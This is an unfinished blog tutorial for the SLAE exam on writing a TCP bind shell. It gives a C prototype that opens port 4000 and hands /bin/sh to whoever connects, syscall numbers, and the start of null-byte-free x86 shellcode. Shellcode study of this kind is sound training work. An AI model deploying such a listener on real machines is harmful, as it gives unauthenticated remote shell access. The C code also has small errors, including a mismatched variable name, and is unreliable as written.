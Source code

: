 ```yaml
---
title: SLAE exam assignment 01
author: Stipe Marinovic
date: 2020-05-17 20:00:00 +0800
categories: [Blogging, Tutorial]
tags: [slae, shellcoding]
toc: true
---
```

... page still under construction ...  

## Assignment 01 ##

* Create a Shell_Bind_TCP shellcode
  - Binds to a port
  - Execs Shell on incoming connection
* Port number should be easily configurable

## Prototype ##

To get idea how bind shell works and which syscalls are used/needed, we can create prototye of bind shell code in C.  

```
#define _GNU_SOURCE # added to avoid gcc's implicit declaration of function warning
#include <unistd.h> 
#include <stdio.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <netinet/in.h> 

int main() { 

  // Define struct containing bind() arguments
  struct sockaddr_in server; 

  // Define socket file descriptor
  int socketfd; 
  int socketid; 
   
  // Create socket 
  socketd = socket(AF_INET, SOCK_STREAM, 6); 

  // Setup struct "server" containing following information: address, port and address family
  server.sin_addr.s_addr = htonl(INADDR_ANY); // any address (0.0.0.0)
  server.sin_port = htons(4000);              // port 4000
  server.sin_family = AF_INET;                // address family (ip v4)

  // Bind socket to ip 0.0.0.0, port 4000 
  bind(socketd, (struct sockaddr*) &server, sizeof(server)); 

  // Listen for incoming connections 
  listen(socketd, 2); 

  // Accept incoming connection 
  socketid = accept(socketd, NULL, NULL); 

  // Bind STDIN (0), STDOUT (1), STDERR (2) to incoming connection 
  dup2(socketid, 0); 
  dup2(socketid, 1); 
  dup2(socketid, 2); 

  // Run /bin/sh shell 
  execve("/bin/sh", NULL, NULL); 
} 
```

Once application is compiled (`with: gcc bind.c`) and run (`./a.out`), we can confirm with netstat (`netstat -antvp`) and netcat (`nc -v 127.0.0.1 4000`) 
that application is indeed listening at port 4000 and provides shell to whoever connects to listening port as shown on following screenshot.
![bind shell](https://smarinovic.github.io/assets/img/slae_00001.png)

## Syscalls ##

Based on prototype code above, we can conclude that following syscalls are needed to implement bind shell:

* socket
* bind
* listen
* accept
* dup2
* execve

List of all syscalls and their associated numbers can be found in: unistd_32.h. On Kali 2019.4 linux file is located on following location: 
```
/usr/include/x86_64-linux-gnu/asm/unistd_32.h
```
```
Syscall               Dec   Hex
----------------------------------
#define __NR_socket   359   0x167
#define __NR_bind     361   0x169
#define __NR_listen   363   0x16B
#define __NR_accept4  364   0x16C
#define __NR_dup2     63    0x3F
#define __NR_execve   11    0xB
```

Each syscall and its arguments are defined in man 2 pages in form of C function. In order to find out which argments are needed we need to look at man pages. 
Based on man 2 pages for socket syscall (`man 2 socket`) we can see the three arguments that need to be passed to syscall.

```
int socket(int domain, int type, int protocol);
```
socket()  creates an endpoint for communication and returns a file descriptor that refers to that endpoint.  
The domain argument specifies a communication domain; this selects the protocol family which will be used for communication.  These families are defined in <sys/socket.h>.  
The socket has the indicated type, which specifies the communication semantics.  
The protocol specifies a particular protocol to be used with the socket.  Normally only a single protocol exists to support a particular socket type within a given protocol family, in which case protocol can be specified as 0.
  
Arguments are passed via registers in following order; EAX, EBX, ECX, EDX, ESI, EDI. EAX always contains syscall number (in case of socket it is decimal 359 or hex 0x167). 
The domain, type and protocol needs to be passed in EBX, ECX and EDX registers.
  
Assemlby instraction: `MOV EAX, value` is used to move value to EAX register. Since shell code will most probably be used within exploit, payload cannot contain null byte as null byte (\x00) terminates string and break exploit. Playing with msf-nasm_shell.rb script which is available in Kali linux we can see that opcode for MOV EAX, 0x167 contains null bytes.
```
nasm > mov eax, 0x167
00000000  B867010000        mov eax, 0x167
Null Bytes -----^^^^
```
To mitigate this issue, we need to find another way of placing 0x167 in EAX register. One way is to do this is to clear EAX register (set it to zero) and once EAX register is set to zero use MOV AX, 0x167 which refers to first 16 bit of EAX register. Opcode for such instruction does not contain null bytes as shown on following example:
```
nasm > mov ax, 0x167
00000000  66B86701          mov ax, 0x167
nasm > 
```

Once syscall number is placed in EAX register, we can continue with function arguments. If we look at prototype code: 
```
socket(AF_INET, SOCK_STREAM, 6);
``` 
We can see that 
* domain is set to AF_INET which is eaqual to "2"
* type is set to SOCK_STREAM which is eaqual to "1" and
* protocol is set to 6 (IPPROTO_TCP)

Since values 1, 2 and 6 would generate null bytes as shown on following block code: 
```
nasm > mov EBX, 0x2
00000000  BB02000000        mov ebx,0x2 
Null bytes ---^^^^^^
                                                                                                                             
nasm > mov ECX, 0x1
00000000  B901000000        mov ecx,0x1                                                                                                                              
Null bytes ---^^^^^^

nasm > mov EDX, 0x6
00000000  BA06000000        mov edx,0x6 
Null bytes ---^^^^^^
```

similar to moving value to EAX register, we can move values to BL, CL and DL wich represents first 8 bites of EBX, ECX and EDX registers. We couldn't use MOV AL, 0x167 as 0x167 requires more than 8 bits so AX had to be used.

```
nasm > mov bl, 0x2
00000000  B302              mov bl,0x2
nasm > mov cl, 0x1
00000000  B101              mov cl,0x1
nasm > mov dl, 0x6
00000000  B206              mov dl,0x6
```

Before we can move any value to register we need to se registers to zero. The easiest way to to it without null bytes is to preform XOR operation on register.

```
; Clearing registers
XOR EAX, EAX    ; set EAX to zero
XOR EBX, EBX    ; set EBX to zero
XOR ECX, ECX    ; set ECX to zero
XOR EDX, EDX    ; set EDX to zero
```

When registers are set to zero we can start writing assembly code to call socket syscall:

```
MOV AX, 0x167  ; 0x167 is hex syscall to socket
MOV BL, 2      ; set domain argument
MOV CL, 1      ; set type argument
MOV DL, 6      ; set protocol argument
INT 0x80       ; preforming syscall

```

.... to be continued ...


```
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
// When a socket is created with socket(2), it exists in a name space (address family) but has no address assigned to it.
// bind() assigns the address specified by addr to the socket referred to by the file descriptor sockfd.  
// addrlen specifies the size, in bytes, of the address structure pointed to by addr.
```

```
int listen(int sockfd, int backlog);
// listen() marks the socket referred to by sockfd as a passive socket, that is, as a socket that will be used to accept incoming connection requests using accept(2).
// The sockfd argument is a file descriptor that refers to a socket of type SOCK_STREAM or SOCK_SEQPACKET.
//  The backlog argument defines the maximum length to which the queue of pending connections for sockfd may grow.  
```

```
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
// The accept() system call is used with connection-based socket types (SOCK_STREAM, SOCK_SEQPACKET). 
// It extracts the first connection request on the queue of pending connections for the listening socket, sockfd, creates a new connected socket, and returns a new file descriptor referring to that socket.  
// The newly created socket is not in the listening state.  
```

```
int dup2(int oldfd, int newfd);
// The dup2() system call performs the same task as dup(), but instead of using the lowest-numbered unused file descriptor, it uses the file descriptor number specified in newfd.  If the file descriptor newfd was previously open, it is silently closed before being reused.
```

```
int execve(const char *pathname, char *const argv[], char *const envp[]);
// execve()  executes the program referred to by pathname.  
// This causes the program that is currently being run by the calling process to be replaced with a new program, with newly initialized stack, heap, and (initialized and uninitialized) data segments.
// pathname must be either a binary executable, or a script starting with a line of the form:
// #!interpreter [optional-arg]
```

